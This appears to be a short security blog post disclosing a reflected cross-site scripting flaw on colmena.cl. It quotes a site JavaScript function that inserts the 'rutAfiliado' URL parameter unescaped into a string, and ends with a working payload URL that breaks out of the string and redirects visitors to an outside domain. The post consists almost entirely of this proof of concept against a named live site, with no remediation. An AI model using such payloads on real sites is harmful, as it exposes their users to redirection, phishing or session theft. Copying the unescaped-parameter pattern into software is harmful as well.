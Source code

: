 ```yaml
---
layout: post
author: cvxz
title:  "Colmena.cl XSS"
date:   2020-01-23 18:12:46 -0300
categories: xss
---
```


{% highlight javascript %}
function verificaAcceso(){
    var rut  = null;
    
    rut = '111111111' != 'null' ? '111111111' : null;
    
    if (rut != null){
        document.getElementById("userAfiliado").value  = rut;
        document.getElementById("userAfiliado").disabled = true;
        buscarDocumentos();
    }else {
        document.getElementById("userAfiliado").value  = "";
        document.getElementById("userAfiliado").disabled = false;
    };
};
{% endhighlight %}

[https://www.colmena.cl/CDP/?rutAfiliado=';window.location="https://90.cl";//](https://www.colmena.cl/CDP/?rutAfiliado=';window.location="https://90.cl";//)